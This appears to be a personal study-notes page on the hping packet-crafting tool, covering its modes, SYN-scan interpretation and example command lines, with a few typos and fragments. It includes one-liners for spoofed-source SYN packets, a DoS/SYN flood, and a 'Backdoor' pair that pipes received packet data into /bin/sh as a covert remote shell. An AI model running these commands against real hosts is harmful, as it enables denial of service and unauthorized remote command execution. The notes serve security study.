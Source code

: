 ```yaml
---
title: Meow's CyberAttackTools - hping
date: 2019-09-17 11:11:11 -0400
categories: [CyberAttack, CyberAttackTools]
tags: [CyberAttack, CyberAttackTools]
toc: true
image:
---
```


# hping

[toc]

---

# Hping
- Hping (Hping2 or Hping3) is another powerful tool for both ping sweeps and port scans
  - a handy packet-crafting tool for TCP/IP.
  - works on Windows and Linux versions
  - runs nearly any scan Nmap can put out.
  - downside, command-line-only tool.


- a command-line TCP/IP packet assembler and analyzer tool
- send customized TCP/IP packets and display the target reply as ping command display the `ICMP Echo Reply packet` from targeted host.
- Hping can also handle fragmentation, arbitrary packets body, and size and file transfer.
- It supports `TCP, UDP, ICMP and RAW-IP` protocols.
- Using Hping, the following parameters can be performed:
  - Test firewall rules.
  - Advanced port scanning.
  - Testing net performance.
  - Path MTU discovery.
  - Transferring files between even fascist firewall rules.
  - Traceroute-like under different protocols.
  - Remote OG fingerprinting & others.

￼![Screen Shot 2019-12-02 at 14.38.32](https://i.imgur.com/dLaXTxs.png)
￼
`-i` –interval wait (uX for X microseconds, for example -i u1000)

Modede

fault mode TCP
- `-0`: RAW IP mode
- `-1`: ICMP mode
- `-2`: UDP mode
- `-8`: SCAN mode.
- `-9`: listen mode

![page91image152294272](https://i.imgur.com/xEaDBuv.jpg)


- Hping 設定SYN Flag, (收到SYC/ACK代表Port有開)
  - 目標怎麼回代表防火牆是open
  - `Hping 10.1.1.1 –c2 –S(SYN) –p21 -n`
  - *Port open*：`SYN/ACK`
  - *Port closed*：`ICMP Unreachable type 13`  *packet filter firewall*

---

## Example

`hpings –A IP` create an ACK packet:

![Pasted Graphic 4](https://i.imgur.com/Q53gnqB.png)

`hpings -8 1-600 –S IP`: create GVN scan against different ports:

￼![Pasted Graphic 5](https://i.imgur.com/fNu5d8z.png)

spoof source IP addresses and source ports.
`hping3 -a 10.8.8.8 -S  springfield   -c 2 -p 80`

Dos Attack:
`hping3 -i ul -S -p 80 192.168.1.10`

Pings (ICMP echo requests) being blocked:
`hping3 -S  www.baidu.ss -p 80`


Uptime: `hping2 -p 80 -S --tcp-timestamp host`

PortScan: `hping –I eth0 --scan 20-25,80,443 -S host`

Synflood: `hping –p 80 –i u10000 –a source –S host`


Backdoor:

S-: `hping3 -I eth1 -9 secret | /bin/sh`

C-: `hping3 -R ip -e secret -E command_file -d 100 -c 1`










.
